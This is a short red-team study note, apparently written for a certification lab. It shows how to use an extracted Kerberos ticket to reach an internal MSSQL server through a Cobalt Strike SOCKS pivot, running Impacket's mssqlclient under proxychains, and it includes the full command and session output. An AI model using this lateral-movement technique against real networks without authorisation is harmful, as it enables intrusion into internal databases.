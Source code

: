 
Having an extracted Kerberos ticket (check [[Pivoting with Kerberos]] ) , you can connect to a DB in and internal Windows environment through a proxy pivot in Cobalt Strike:

```
ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -dc-ip 10.10.122.10 -no-pass -k dev.cyberbotic.io/bfarmer@sql-2.dev.cyberbotic.io

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.25:1433-<><>-OK
[*] Encryption required, switching to TLS
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.10:88-<><>-OK
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL-2): Line 1: Changed database context to 'master'.
[*] INFO(SQL-2): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands

SQL> select @@servername;

--------------------------------------------------------------------------------------------------------------------------------

SQL-2
```


⚠   This may require adding a static host entry to `/etc/hosts` and changing the _proxy_dns_ setting in `/etc/proxychains.conf` to _remote_dns_.




### Properties
---
📆 created   {{17-02-2024}} 18:36
🏷️ tags: #redteam #crto 

---

